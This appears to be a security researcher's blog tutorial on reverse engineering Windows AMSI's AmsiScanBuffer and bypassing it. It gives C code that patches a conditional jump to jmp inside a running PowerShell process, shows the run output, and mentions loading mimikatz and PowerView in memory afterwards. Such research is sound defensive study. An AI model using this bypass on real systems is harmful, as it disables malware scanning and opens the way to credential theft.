








import Callout from '@/components/Callout.astro'

foo

## Reversing
`AmsiScanBuffer(){:js}` is the function we chose earlier to patch. Below is the disassembled flow graph of the `AmsiScanBuffer(){:js}` function.


From the graph, we can observe that the function takes two distinct execution paths:
- The <abbr title="Main">Main</abbr> path - where the core `AmsiScanBuffer(){:js}` scanning logic executes.
- The <abbr title="Error">Error</abbr> path - where the function returns the error code `0x80070057`, which indicates that one or more arguments are invalid.

Throughout the `AmsiScanBuffer(){:js}` function, there are multiple conditional jump instructions <kbd>je - jump if equal</kbd> that are triggered when invalid arguments are detected. These jumps redirect the execution flow to the error-handling code block.

**Our patching strategy:** By changing one of these conditional jumps, <kbd>je</kbd> to an unconditional jump <kbd>jmp</kbd>, we can force the function to always jump to the error block. This allows us to bypass AMSI checks by forcing the function to consistently return an error, effectively bypassing it.

I chose this particular <kbd>je</kbd> statement located below the <kbd>test rbp, rbp</kbd> instruction.


Before modifying the instruction, let's observe the default behavior. When `invoke-mimikatz{:powershell}` is typed in PowerShell, we can see that it is being caught and blocked by AMSI.



Now, I have patched the conditional jump <kbd>je</kbd> to an unconditional jump <kbd>jmp</kbd> using the debugger, as shown in the images below.




After applying the patch, I pressed `F9 (Run)` to continue execution and then detached **x64dbg** from the PowerShell process. Now when typing `invoke-mimikatz{:powershell}` in PowerShell, you can see it is no longer being detected 😎. 



## Bypassing AMSI

In this section, I will be writing the POC for this bypass using C. 

Earlier in the reversing section, I patched the <kbd>je</kbd> instruction (located below <kbd>test rbp, rbp</kbd>) to an unconditional <kbd>jmp</kbd>. Now, I will be implementing this patch in **C**, which requires knowing the exact location of the <kbd>je</kbd> instruction. This can be calculated as an offset from the `AmsiScanBuffer(){:js}` base address.



<Callout title="Hex Value" variant="explanation">
As shown in the image above, the <kbd>je</kbd> instruction is located at offset `0x59` from the `AmsiScanBuffer(){:js}` function's starting address.
$$
    00007FF80EEB81B9 - 00007FF80EEB8160 = 59
$$

</Callout>

Now this is the basic idea of the code that we will be writing, locate `AmsiScanBuffer(){:c}`'s address, then calculate the offset `0x59` from there. At that address, we will replace the conditional jump with an unconditional jump.

The code begins by loading the AMSI library into our process's memory space using `LoadLibraryA(){:c}`, which returns a handle to the loaded module. We then use `GetProcAddress(){:c}` to retrieve the memory address of the `AmsiScanBuffer(){:c}` function within that module. Now here you might wonder, "Why am I loading `amsi.dll` in the current process and calculating the address, instead of retrieving it directly from the target process?" Let me explain why. Windows has something called [Address Space Layout Randomization](https://en.wikipedia.org/wiki/Address_space_layout_randomization), which is a security feature that randomizes the memory addresses where programs and DLLs are loaded. This makes it harder for attackers to predict memory locations for exploitation. However, there is a catch, system DLLs such as `amsi.dll`, `kernel32.dll`, and `ntdll.dll` are randomized **per boot**, meaning the loading address remains the same across all processes during a single boot session.

``` c
char amsiName[] = "AmsiScanBuffer";
HMODULE amsiModule = LoadLibraryA("amsi.dll");
LPVOID amsiScanbuffer_p = (LPVOID)GetProcAddress(amsiModule, amsiName);
```

Here in the below image, you can see that je's opcode is `0x74`, and `0x4C` is the jumping offset i.e. the distance between the jump instruction and the address where we want to jump, which in our case is the error block. We won't be modifying the jumping offset, we'll only change the <kbd>je</kbd> to <kbd>jmp</kbd>, hence changing `0x74` to `0xEB`.


Coming back to the code, we define our patch bytes as `{0xeb, 0x4c}`. This replaces the original *conditional8 jump instruction (`je, opcode 0x74`) with an *unconditional* jump (`jmp, opcode 0xEB`) while keeping the same jump destination (`0x4C` offset).

```c
unsigned char bytes[] = {0xeb, 0x4c};
```
We specify the target PowerShell process ID as a hardcoded value, which should be obtained from the PowerShell session you want to patch by running the $PID variable. The `OpenProcess(){:c}` function is then called with `PROCESS_ALL_ACCESS` to obtain a handle to the target PowerShell process with full access rights.

```c
DWORD pid = 2436;  
printf("Targeting PowerShell PID: %d\n", pid);
  
HANDLE ProcHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
printf("Successfully opened PowerShell process\n");
```

Before we can write to the target process's memory, we need to modify the memory protection flags using `VirtualProtectEx(){:c}`. We calculate the exact patch address as <kbd>amsiScanbuffer_p + 0x59</kbd>, which is the base address of AmsiScanBuffer plus the `0x59` offset where the <kbd>je</kbd> instruction is located. The `VirtualProtectEx(){:c}` function changes the memory region's protection to `PAGE_EXECUTE_READWRITE`, allowing us to modify executable code. The original protection flags are saved in the oldprotect variable so we can restore them later.

```c
DWORD oldprotect;
VirtualProtectEx(ProcHandle, ((PBYTE)amsiScanbuffer_p + 0x59), sizeof(bytes)*10, PAGE_EXECUTE_READWRITE, &oldprotect);
printf("Patch Address: %p\n", ((PBYTE)amsiScanbuffer_p+0x59));
```

With the memory protection modified, we use `WriteProcessMemory(){:c}` to write our 2-byte patch into the PowerShell process's memory at the calculated address. This function overwrites the original <kbd>je</kbd> instruction (`0x74 0x4C`) with our *unconditional* jump instruction (`0xEB 0x4C`). The `&write` parameter below receives the number of bytes actually written, which should be 2 if successful as we are just replacing 2 bytes.

```c
WriteProcessMemory(ProcHandle, ((PBYTE)amsiScanbuffer_p + 0x59), bytes, sizeof(bytes), &write);
printf("Bytes written: %zu\n", write);
```

After the patch is written, we restore the original memory protection flags by calling `VirtualProtectEx(){:c}` again with the saved oldprotect value. 

```c
VirtualProtectEx(ProcHandle, ((PBYTE)amsiScanbuffer_p + 0x59), sizeof(bytes) * 10, oldprotect, &oldprotect);
```

We have finished writing C code, now lets compile it and test it ;)


Below is a snippet after executing the binary.
```powershell
PS C:\users\holywater.dev\Desktop> .\testy12.exe
[+] AmsiScanBuffer address: 00007ff80eeb8160
[+] Targeting PowerShell PID: 2436
[+] Successfully opened PowerShell process
[+] Patch Address: 00007ff80eeb81b9
[+] Bytes written: 2
[+] Restore protection: 1
[+] AMSI patch complete!
```
Now I try download and execute mimikatz and Powerview in memory using IEX from the github directly.


I also attached x64dbg to the PowerShell process (**PID: 2436**) where I executed the AMSI bypass POC executable to verify if the <kbd>je</kbd> instruction got patched to <kbd>jmp</kbd>, and you can see that it was indeed successfully patched.


Well, thank you for reading! You can find the research repo [here](https://github.com/holywater2372/reversing-amsi). If you've made it this far, I appreciate your time and interest. Feel free to connect with me on my socials :)

## References
- [Tradecraft Improvement Series](https://dosxuz.gitlab.io/post/)
- [Better know a data source: Antimalware Scan Interface](https://redcanary.com/blog/threat-detection/better-know-a-data-source/amsi/)
- [Bypassing AMSI by using memory patching](https://fluidattacks.com/blog/amsi-bypass)
- [Offense and Defense – A Tale of Two Sides: PowerShell](https://www.fortinet.com/blog/threat-research/offense-and-defense-a-tale-of-two-sides-powershell)